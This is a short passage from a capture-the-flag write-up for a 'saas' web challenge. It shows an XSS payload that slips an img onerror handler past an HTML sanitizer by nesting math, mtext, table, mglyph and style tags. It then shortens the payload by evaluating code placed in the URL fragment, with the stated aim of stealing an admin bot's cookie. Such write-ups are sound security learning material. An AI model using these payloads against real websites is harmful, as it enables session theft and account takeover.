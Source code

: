 ![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/saas/xss.jpg)

```
a ='<math><mtext><table><mglyph><style><img/src=x onerror="alert(1337)">'

a.length
68
```

- Our payload already reached the length of 68, we can have a max paylaod length of 75 ! Hmm that wont to be enough to steal cookie from the admin bot.

- Here we can use a trick which i found reading <a href="https://github.com/aszx87410/ctf-writeups/issues/49">Eval the URL for xss.</a>

>```<math><mtext><table><mglyph><style><img/src=x onerror="eval(`'`+URL)">```

- If we can control the URL, we can make it as: `https://saas.wwctf.com/#';alert(1337)`. After adding a quote before the URL, it becomes `https://saas.wwctf.com/#';alert(1)`, just a string and a alert function call.

- With this we can bypass the length restriction of the payload.

![Description](https://raw.githubusercontent.com/kabilan1290/astro-blog/master/public/saas/longxss.png)
